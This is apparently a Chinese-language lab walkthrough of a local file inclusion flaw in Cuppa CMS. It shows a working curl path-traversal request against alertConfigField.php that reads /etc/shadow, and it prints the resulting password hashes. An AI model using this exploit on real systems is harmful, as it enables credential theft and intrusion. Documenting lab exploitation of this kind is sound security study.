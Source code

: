 

## 文件包含漏洞

-   已知使用的系统的cms为`Cuppa`

![image-20230516205202141](/Users/christopher/Library/Application Support/typora-user-images/image-20230516205202141.png)

-   下载文件到本地进行查看

![image-20230516205411127](https://raw.githubusercontent.com/r0o983/images/main/image-20230516205411127.png)

-   文件利用

```shell
└─$ curl --data-urlencode urlConfig=../../../../../../../../../etc/shadow http://192.168.8.129/administrator/alerts/alertConfigField.php            
<style>
    ...........
</style>
<script>
        .............
</script>
<div class="alert_config_field" id="alert">
    <div class="alert_config_top">
        <strong>Configuration</strong>:         <div class="btnClose_alert" id="btnClose_alert" onclick="CloseDefaultAlert()"></div>
    </div>
    <div id="content_alert_config" class="content_alert_config">
        root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
games:*:17379:0:99999:7:::
man:*:17379:0:99999:7:::
lp:*:17379:0:99999:7:::
mail:*:17379:0:99999:7:::
news:*:17379:0:99999:7:::
uucp:*:17379:0:99999:7:::
proxy:*:17379:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
gnats:*:17379:0:99999:7:::
nobody:*:17379:0:99999:7:::
systemd-timesync:*:17379:0:99999:7:::
systemd-network:*:17379:0:99999:7:::
systemd-resolve:*:17379:0:99999:7:::
systemd-bus-proxy:*:17379:0:99999:7:::
syslog:*:17379:0:99999:7:::
_apt:*:17379:0:99999:7:::
messagebus:*:17379:0:99999:7:::
uuidd:*:17379:0:99999:7:::
lightdm:*:17379:0:99999:7:::
whoopsie:*:17379:0:99999:7:::
avahi-autoipd:*:17379:0:99999:7:::
avahi:*:17379:0:99999:7:::
dnsmasq:*:17379:0:99999:7:::
colord:*:17379:0:99999:7:::
speech-dispatcher:!:17379:0:99999:7:::
hplip:*:17379:0:99999:7:::
```